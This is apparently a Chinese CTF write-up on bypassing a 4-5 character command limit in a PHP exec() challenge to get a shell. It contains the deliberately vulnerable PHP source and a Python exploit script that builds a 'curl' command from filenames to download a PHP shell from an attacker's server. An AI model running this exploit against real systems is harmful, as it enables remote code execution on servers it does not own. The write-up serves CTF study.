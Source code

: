 ```yaml
---
title: 绕过4-5个字符限制getshell
date: 2020-06-02
image: 
description: 由一道CTF题目探究绕过4，	5个字符限制getshell
categories: 
- note
tags:
- RCE bypass
---
```

这个东西起源于HITCON CTF 2017的一道题，高校战疫Hack Me也曾经出现过，最近突然做到了来说一下

参考：https://www.anquanke.com/post/id/87203

------

### 源码

五字版本

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

四字版本：

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

### 预备知识

在cmd长度小于5（4）个字符的时候用 `exec` 函数执行系统命令，不过 `exec` 函数是默认没有回显的，这里我们就只能盲打。

#### Linux用\连接多行命令

Linux系统中支持用 `\` 字符来分割一个多行命令，在一个文件中即使有无法识别的命令，报错，也不会影响其他正常命令执行

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170817.png)

#### 用两个字符在Linux下创建文件

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170833.png)

#### ls的文件排序和ls -t的文件排序

ls

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170844.png)

ls -t

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170853.png)

可以看到， `ls` 是按照alphabet来排序的， `ls -t` 是按照创建时间的顺序来排序的

 

### 分析

我们在原文可以看到，作者通过了创建文件，利用文件名构造curl命令，然后用ls命令追加到一个文件，再用sh命令去执行它

思路显然是非常的爆炸，但是我经过复现之后，发现这种构造很困难，作者利用了IP的16进制、8进制和长整型形式来构造文件名，而且分割之后恰恰又是满足alphabet的，而VPS的ip是固定不变的，想要找一个这样的IP需要一定的巧合。

并且原作者playload的到数第三行：

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170902.png)

利用了A文件本身就在ls命令回显的特性，我构造到这里，很难受，这个技巧太高。

#### ls -t 、 rev 、 * 命令结合使用回避alphabet

而在HITCON2017的四字版本里面，有师傅利用 `ls -t` 和 `rev` 和 `*` 避开了这个问题，不过思路也是相当的巧妙

```
import requests
import time

host = '127.0.0.1'

playload = [
 # generate "g> ht- sl" to file "v"
    '>dir',
    '>g\>',
    '>ht-',
    '>sl',
    '*>v',
 # reverse file "v" to file "h", content "ls -th >g"
    '>rev',
    '*v>h',
  # generate "curl 59.xx0.x5x.4>p.php"
    '>\;\\',
    '>p',
    '>ph\\',
    '>p.\\',
    '>\>\\',
    '>4\\',
    '>5x.\\',
    '>0.x\\',
    '>xx\\',
    '>59.\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',
    'sh h',
    'sh g',
]

for i in playload:
    cmd = i
    r = requests.get(host + '?cmd=' + i)
    #print(r.text)
    time.sleep(0.2)
```

这是5字版本的exp，4字版本只需要改一下自己的IP。

其中 `*` 这个命令很有意思

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120170912.png)

所以这个方案明显比原来的利用alphabet的排序来写shell好多了